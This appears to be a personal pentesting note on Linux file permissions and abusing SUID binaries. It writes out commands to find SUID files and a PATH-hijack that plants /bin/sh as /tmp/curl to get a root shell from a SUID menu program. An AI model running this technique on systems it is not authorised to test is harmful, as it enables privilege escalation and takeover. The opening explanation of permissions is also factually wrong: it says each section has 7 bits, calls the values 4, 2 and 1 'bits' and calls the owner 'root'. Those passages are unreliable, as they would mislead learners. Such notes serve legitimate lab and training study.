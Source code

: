 ```yaml
---
category: Uncategorized
tags: []
---
```

Abusing SUID

**Permissions Basics**

Permissions on folders and files are broken up into 4 categories when viewing a listing “ls -la”.

example of the sections broken apart:
- rwx rwx rwx (file,read write execute,read write execute,read write execute)

example of what may be seen in an actual listing:
-rwxr-xr-- (file,read write execute,read execute, read)

The first section indicates if it is a file or a directory “-” or "d".
The second section indicates root privileges “rwx” or Read, Write, Execute
The third section indicates group privileges “rwx” or Read, Write, Execute
The fourth section indicates all other user privileges “rwx” or Read, Write, Execute

Each section is broken into 7 bits.

The first counter (read) is worth 4 bits
The second counter (write) is worth 2 bits
The third counter (execute) is worth 1 bits

ex. “chmod 777 file.sh” gives rwx for all 3 sections of the file permissions

Locating files with SUID Bits

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

After locating files/binaries with the SUID Bit enabled, search GTFOBins for additional/potential escalation points

**SUID Binary Copy and Path Replacement**

This can be useful if you find a binary/script that has root privs that is calling other applications (i.e curl, ifconfig, uname)

Start with locating suid bit binaries/scripts

~~~bash
find / -perm -u=s -type f 2> /dev/null
~~~

ex. /usr/bin/menu

When you run manual, you notice that the outputs for each option give you outputs from other binaries (like in the example above).

Echo /bin/sh into a file and name it one of the binary names that is being called from the menu binary/script

~~~bash
echo /bin/sh > /tmp/curl
~~~

chmod the binary with RWX permissions

~~~bash
chmod 777 /tmp/curl
~~~

Add the binary as a $PATH environment variable

~~~bash
export PATH=/tmp:$PATH
~~~

Re-run the menu binary and select the option that has the binary that you just created the file for and you should now have a root shell

![[Pasted image 20230102132213.png]]
